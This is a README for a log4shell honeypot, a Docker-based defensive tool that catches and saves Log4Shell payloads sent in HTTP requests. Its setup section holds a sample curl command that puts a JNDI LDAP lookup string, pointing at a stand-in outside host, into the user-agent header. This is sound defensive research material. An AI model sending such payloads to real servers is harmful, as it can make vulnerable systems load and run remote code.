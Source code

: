 # log4shell-honeypot
Catch and download `log4shell` payloads sent within HTTP headers, query parameters or POST data. Modified version of [Adikso's minecraft honeypot](https://github.com/Adikso/minecraft-log4j-honeypot)

## Setup
1. `git clone $repo`
2. `docker-compose up`
3. Send payloads within a http header to `$dockerip:$port`

To add additional honeypots on different ports, copy and paste an existing service within `docker-compose.yml`, changing the service name, and alter the ports within `ports` and `command`.
```bash
curl --user-agent '${jndi:ldap://lmao.com:1389/a}' http://localhost:80
```

Payloads are saved within `payloads/`

Logs are printed to the screen by default, but can be retreived with `docker inspect`. e.g: 
```bash
docker inspect --format='{{.LogPath}}' log4shell-honeypot_http_1 | xargs cat
```